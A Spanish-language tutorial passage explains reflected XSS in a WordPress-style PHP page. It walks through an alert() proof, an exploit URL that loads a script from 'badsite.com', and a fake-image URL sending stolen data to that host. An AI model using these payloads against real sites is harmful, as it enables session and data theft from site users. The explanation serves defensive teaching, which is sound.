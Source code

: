 Esa es una vulnerabilidad XSS clásica. Si incluye este código en un complemento de WordPress, lo publica y su complemento se vuelve popular, no puede tener dudas de que un analista de seguridad en algún momento se comunicará con usted para informarle esta vulnerabilidad. Tendrás que arreglarlo y el analista lo hará público, dejándote un poco avergonzado, pero con una aplicación más segura.

Entonces, ¿por qué se trata de una vulnerabilidad XSS? La forma en que funciona el código anterior es que toma un valor de la URL y lo vuelve a escribir en el navegador, sin validar ni filtrar. Si su aplicación está alojada en [https://example.com/test.php](https://example.com/test.php), un visitante del sitio podría visitar la siguiente URL:

> https://ejemplo.com/test.php?val=123

Luego verán: "El valor que ingresó es: 123" en su navegador. Probablemente la forma en que se diseñó la aplicación para funcionar.

Si alguien visita la siguiente URL:

> https://example.com/test.php?val=<script>alert('Prueba que esto es un XSS');</script>

Verán lo siguiente en el navegador: "El valor que ingresó es:" y también verán un cuadro de alerta emergente que dice "Prueba que esto es un XSS".

### ¿Por qué es peligrosa la salida sin filtrar?

Una demostración que muestra un cuadro de alerta no parece una gran amenaza. Si no comprende completamente el impacto de una vulnerabilidad XSS y alguien le informa este problema con un cuadro de `alerta()` como demostración de la vulnerabilidad, es posible que no se lo tome en serio. ¿Cómo puede la prueba de que puede ejecutar JavaScript ser una prueba de un problema de seguridad grave?

Cuando un analista le envía un cuadro de alerta() como prueba de una vulnerabilidad de seguridad, está demostrando que puede ejecutar código JavaScript arbitrario en el navegador. Lo que realmente están demostrando es que al enviar esa URL a otra persona, pueden lograr que esa otra persona ejecute javascript arbitrario en un navegador.

### Una versión de un exploit podría verse así

[https://example.com/test.php?val=<script](https://example.com/test.php?val=%3cscript) src=”http://badsite.com/badscript.js”></script>

El atacante enviará ese enlace a una víctima. Los pasos son los siguientes:

- La víctima hace clic en el enlace y visita el sitio. Supongamos que ya han iniciado sesión en el sitio web con acceso de nivel de administrador.
- El enlace y la vulnerabilidad XSS hacen que el script se cargue desde un sitio web externo a la página web de destino.
- El script tendrá acceso completo al entorno DOM del navegador, incluida cualquier cookie HTTP que no esté protegida por el indicador HttpOnly.
- El script realiza una acción maliciosa como usuario que ha iniciado sesión. También roba datos del sitio web al que puede acceder el usuario que ha iniciado sesión (por ejemplo, mensajes privados que el usuario ha recibido) y los envía al atacante. Los datos se pueden enviar de varias maneras, pero una podría ser cargar una imagen como esta desde un sitio web externo: [http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues](http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues). badPretendImage.jpg es en realidad un script que muestra una imagen pero también almacena los datos recibidos.

Ese es el mecanismo básico de explotación de una vulnerabilidad XSS: un atacante encuentra una manera de hacer que una víctima cargue su javascript utilizando una vulnerabilidad XSS en el sitio web. Lo usan para robar datos de los navegadores.
